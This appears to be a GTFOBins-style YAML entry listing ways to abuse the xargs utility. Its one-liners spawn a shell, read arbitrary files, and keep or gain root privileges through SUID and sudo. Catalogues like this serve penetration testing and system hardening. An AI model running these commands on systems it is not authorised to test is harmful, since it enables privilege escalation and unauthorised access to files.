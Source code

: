 ```yaml
---
functions:
  shell:
    - description: GNU version only.
      code: xargs -a /dev/null sh
    - code: echo x | xargs -Iy sh -c 'exec sh 0<&1'
    - description: Read interactively from `stdin`.
      code: |
        xargs -Ix sh -c 'exec sh 0<&1'
        x^D^D
  file-read:
    - description: This works as long as the file does not contain the NUL character, also a trailing `$'\n'` is added. The actual `/bin/echo` command is executed. GNU version only.
      code: |
        LFILE=file_to_read
        xargs -a "$LFILE" -0
  suid:
    - description: GNU version only.
      code: ./xargs -a /dev/null sh -p
  sudo:
    - description: GNU version only.
      code: sudo xargs -a /dev/null sh
---
```

